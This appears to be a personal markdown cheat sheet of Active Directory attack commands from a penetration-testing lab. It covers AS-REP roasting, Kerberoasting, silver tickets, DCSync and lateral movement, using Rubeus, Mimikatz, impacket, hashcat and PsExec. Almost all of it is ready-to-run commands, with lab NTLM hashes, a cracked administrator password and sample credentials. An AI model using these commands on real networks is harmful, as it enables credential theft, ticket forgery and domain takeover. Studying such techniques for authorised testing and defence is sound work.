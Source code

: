 ```

# From winows
.\Rubeus.exe asreproast /nowrap
sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
### Kerberoasting
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
cat hashes.kerberoast
hashcat --help | grep -i "Kerberos"
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

## Linux 
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
impacket-GetUserSPNs -dc-ip 192.168.217.40  hokkaido-aerospace.com/discovery -request 
sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

### Silver Ticket 
```
Access any web or smbshare
iwr -UseDefaultCredentials http://web04

##Mimikatz
privilege::debug
sekurlsa::logonpasswords                 # found iis service hash NTLM     : 4d28cf5252d39971419580a51484ca09
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
klist
iwr -UseDefaultCredentials http://web04   # it will work
```
### Domain Controller Synchronization (DCsync attack)
```
.\mimikatz.exe
lsadump::dcsync /user:corp\dave         #   Hash NTLM: 08d7a47a6f9f66b97b1bae4178747494
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
lsadump::dcsync /user:corp\Administrator  # Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
Cracked Administrator hash found BrouhahaTungPerorateBroom2023!
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```

## Lateral Movement 
### PSEXEC 
Pre-req: Administrators local group, ADMIN$ share must be available, and third, File and Printer Sharing has to be turned on
```
./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```
### PASS-THE HASH 
```
kali@kali:~$ /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```
### Overpass the Hash
abuse an NTLM user hash to gain a full Kerberos Ticket Granting Ticket (TGT).